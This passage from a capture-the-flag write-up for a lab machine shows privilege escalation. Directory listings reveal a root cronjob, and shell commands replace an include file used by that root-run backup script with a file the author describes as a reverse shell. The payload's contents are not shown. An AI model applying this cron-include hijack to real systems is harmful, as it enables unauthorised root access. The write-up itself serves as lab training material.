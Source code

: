```bash
        }
        return false;
}
?>
```
Looking at the /var/backups/backup.zip directory we notice that this is triggered by a cronjob that seems to be run by root and runs every few minutes.

```bash
sysadmin@opacity:~/scripts/lib$ ls -lah /var/backups/
total 92K
drwxr-xr-x  2 root root 4.0K Apr 11 17:42 .
drwxr-xr-x 14 root root 4.0K Jul 26  2022 ..
-rw-r--r--  1 root root  40K Feb 22 08:04 apt.extended_states.0
-rw-r--r--  1 root root 4.3K Jul 26  2022 apt.extended_states.1.gz
-rw-r--r--  1 root root  34K Apr 11 17:42 backup.zip
sysadmin@opacity:~/scripts/lib$ ls -lah /var/backups/
total 92K
drwxr-xr-x  2 root root 4.0K Apr 11 17:49 .
drwxr-xr-x 14 root root 4.0K Jul 26  2022 ..
-rw-r--r--  1 root root  40K Feb 22 08:04 apt.extended_states.0
-rw-r--r--  1 root root 4.3K Jul 26  2022 apt.extended_states.1.gz
-rw-r--r--  1 root root  34K Apr 11 17:49 backup.zip
```

We also notice we don’t have write permissions on the script.php or the backup.inc.php script so we can’t modify the files itself. We do have the ability to create files in the /home/sysadmin directory and to overwrite the lib/backup.inc.php file with our own modified backup.inc.php file that is a reverse shell.

```bash
sysadmin@opacity:~$ pwd
/home/sysadmin
sysadmin@opacity:~$ vi backup.inc.php
sysadmin@opacity:~$ mv backup.inc.php /home/sysadmin/scripts/lib/
mv: replace '/home/sysadmin/scripts/lib/backup.inc.php', overriding mode 0644 (rw-r--r--)? y
sysadmin@opacity:~$ ls -lah /home/sysadmin/scripts/lib/
total 136K
drwxr-xr-x 2 sysadmin root     4.0K Apr 12 05:10 .
drwxr-xr-x 3 root     root     4.0K Jul  8  2022 ..
-rw-r--r-- 1 root     root     9.3K Jul 26  2022 application.php
-rw-rw-r-- 1 sysadmin sysadmin 2.6K Apr 12 05:10 backup.inc.php
-rw-r--r-- 1 root     root      24K Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root      11K Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root     7.5K Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root     4.8K Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root     3.2K Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root     1.3K Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root     1.5K Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root      11K Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root      17K Jul 26  2022 registry.php
-rw-r--r-- 1 root     root     6.8K Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root     3.9K Jul 26  2022 xmlapi2.php
-rw-rw-r-- 1 sysadmin sysadmin   58 Apr 12 04:50 xmlapi.php
```
